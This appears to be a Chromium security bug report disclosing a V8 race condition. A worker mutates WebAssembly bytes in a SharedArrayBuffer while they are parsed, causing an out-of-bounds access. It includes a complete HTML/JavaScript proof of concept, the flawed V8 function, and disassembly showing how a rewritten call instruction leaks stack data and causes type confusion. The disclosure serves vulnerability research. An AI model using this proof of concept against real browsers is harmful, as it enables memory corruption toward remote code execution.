 From https://b.corp.google.com/issues/64796825
Part of chrome remote exploit for pixel.

1. The RCE Bug
By combining the three fetures(WebAssembly, Web worker and SharedArrayBuffer) in chrome, an OOB access can be triggered through race condition. Simply speaking, WebAssembly code can be put into a SharedArrayBuffer, and then transfer to a webworker. When the main thread parses the WebAssembly Code, the worker thread can modify the code at the same time, which cause an OOB access, a short PoC is as follows:

<html>
<h1>poc</h1>
<script id="worker1">
worker:{
    if (typeof window === 'object') break worker; // Bail if we're not a Worker
    self.onmessage = function(arg) {
        //%DebugPrint(arg.data);
        console.log("worker started");
        var ta = new Uint8Array(arg.data);
        //%DebugPrint(ta.buffer);
        var i =0;
        while(1){
            if(i==0){
                i=1;
                ta[51]=0;                               //--------------------->4)modify the webassembly code at the same time
            }else{
                i=0;
                ta[51]=128;
            }
        }
    }
}
</script>

<script>
function getSharedTypedArray(){
    var wasmarr = [
        0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,
        0x01, 0x05, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03,
        0x03, 0x02, 0x00, 0x00, 0x07, 0x12, 0x01, 0x0e,
        0x67, 0x65, 0x74, 0x41, 0x6e, 0x73, 0x77, 0x65,
        0x72, 0x50, 0x6c, 0x75, 0x73, 0x31, 0x00, 0x01,
        0x0a, 0x0e, 0x02, 0x04, 0x00, 0x41, 0x2a, 0x0b,
        0x07, 0x00, 0x10, 0x00, 0x41, 0x01, 0x6a, 0x0b
            ];
    var sb = new SharedArrayBuffer(wasmarr.length);           //------------------> 1)put WebAssembly code in a SharedArrayBuffer
    var sta = new Uint8Array(sb);
    for(var i=0;i<sta.length;i++)
        sta[i]=wasmarr[i];
    return sta;    
}
var blob = new Blob([
        document.querySelector('#worker1').textContent
        ], { type: "text/javascript" })

var worker = new Worker(window.URL.createObjectURL(blob));   //-------------------->2)create a web worker
var sta = getSharedTypedArray();
//%DebugPrint(sta.buffer);
worker.postMessage(sta.buffer);                              //-------------------->3)pass the WebAssembly code to the web worker


setTimeout(function(){
        while(1){
        try{
        //console.log(sta[50]);
        sta[51]=0;
        var myModule = new WebAssembly.Module(sta);          //--------------------->4)parse the webassembly code
        var myInstance = new WebAssembly.Instance(myModule);
        //myInstance.exports.getAnswerPlus1();
        }catch(e){
        ///console.log(e)
        }
        }
    },1000);

//worker.terminate(); 
</script>
</html>

I think the buggy code is in the following function
https://chromium.googlesource.com/v8/v8.git/+/07259a9ceafa078c9bb7f9ee1bb6f2d67256cc80/src/wasm/wasm-js.cc#69
i::wasm::ModuleWireBytes GetFirstArgumentAsBytes(
    const v8::FunctionCallbackInfo<v8::Value>& args, ErrorThrower* thrower) {
  ......
  } else if (source->IsTypedArray()) {    ------------------->source should be checked if it's backed by a SharedArrayBuffer
    // A TypedArray was passed.
    Local<TypedArray> array = Local<TypedArray>::Cast(source);
    Local<ArrayBuffer> buffer = array->Buffer();
    ArrayBuffer::Contents contents = buffer->GetContents();
    start =
        reinterpret_cast<const byte*>(contents.Data()) + array->ByteOffset();
    length = array->ByteLength();
  } 
  ......
  return i::wasm::ModuleWireBytes(start, start + length);
}

The exploit of this bug is easy, we can simply modify "call xxx" webassembly instruction to leak stack contents and  cause type confusion, 
for example, we can dump the aforementioned webassembly code by wasm-objdump.
ggong@ggong-pc:~$ wasm-objdump -d test.wasm




test.wasm:      file format wasm 0x1

Code Disassembly:

00002b func[0]:
 00002d: 41 2a                      | i32.const 42
 00002f: 0b                         | end
000030 func[1]:
 000032: 10 00                      | call 0                  -------------> the aforementioned worker thread modified this call intstructrion to call 128 and cause a OOB access 
 000034: 41 01                      | i32.const 1
 000036: 6a                         | i32.add
 000037: 0b                         | end
As to the detail, please refer to the full exploit.